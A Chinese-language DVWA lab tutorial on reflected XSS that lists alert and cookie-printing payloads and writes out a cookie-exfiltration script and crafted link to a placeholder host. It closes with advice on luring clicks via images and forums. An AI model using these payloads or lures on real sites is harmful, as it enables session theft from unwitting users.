 ## 反射型XSS漏洞
### 1、登陆DVWA，设置LOW的安全界别
![image](https://github.com/498946975/Security/blob/master/images/xss_1.png)
### 2、执行js代码的2种方式
```yaml
1、使用<srpipt>js代码</script>标签
    <script>alert(1)</script>
2、使用事件的方式执行js代码
```
### 3、使用image的onerror的事件，执行js代码
```yaml
img标签支持onerror 事件，在装载文档或图像的过程中如果发生了错误，就会触发onerror事件。
```
#### 获取当前站点的cookie
```javascript
<img src=## onerror=alert(document.cookie)>
```
![image](https://github.com/498946975/Security/blob/master/images/xss_2.png)
### 4、a标签，实行js代码
#### 鼠标移动到这的时候，才执行代码
```javascript
<a onmouseover=alert(document.cookie)>xxs link</a>
```
![image](https://github.com/498946975/Security/blob/master/images/xss_3.png)

### 5、DOM的xss反射
#### 1、反弹cookie
```javascript
<script>var img=document.createElement("img");img.src=alert(document.cookie); </script>
```
### 6、发送当前cookie到某个服务器
#### 必须登陆才能访问cookie
#### 一般情况下，从web服务的日志中查看cookie
#### 把cookie弹出来，访问这个http链接，上传到服务器日志
#### 用法就是
```javascript
<script> var img=document.createElement("img");img.src="http://xxxx/a?"+escape(document.cookie);
```
#### 以下链接，谁点，就发送谁172.16.120.252:8080的cookie到 http://xxxx/a?
```shell script
http://172.16.120.252:8080/vulnerabilities/xss_r/?name=<script> var img=document.createElement("img");img.src="http://xxxx/a?"+escape(document.cookie);
```
#### 诱导性图片，嵌入以上链接，更容易得手。
### 7、常用攻击场景
```yaml
论坛，留言，站内信，利用成功率更高。
```
